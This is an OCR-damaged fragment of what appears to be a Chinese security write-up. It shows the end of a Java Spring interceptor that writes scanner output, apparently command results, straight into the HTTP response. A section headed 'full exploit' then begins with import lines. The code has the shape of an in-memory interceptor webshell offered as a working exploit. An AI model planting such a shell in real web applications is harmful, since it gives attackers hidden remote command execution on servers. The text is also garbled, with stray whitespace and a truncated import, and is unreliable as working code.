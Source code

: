                       
String output = s.hasNext() ? s.next() : "";              
  
                      
response.getWriter().write(output);              
  
                      
response.getWriter().flush();              
  
                      
response.getWriter().close();              
  
                  
} catch(Exception e){              
  
                  
e.printStackTrace();              
  
                  
}              
  
                  
return false;              
  
              
}              
  
              
return true;              
  
          
}              
  
  
  
          
@Override              
  
          
public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable ModelAndView modelAndView) throws Exception {              
  
          
}              
  
  
          
@Override              
  
          
public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable Exception ex) throws Exception {              
  
          
}              
  
      
}              
  
  
  
完整的EXP:  
  
  
port jdk.internal.dynalink.beans.StaticClass;              
  
import org.springframework.lang.Nullable;              
  
import org.springframework.stereotype.Controller;              
  
import org.springframework.web.bind.annotation.RequestMapping;              
  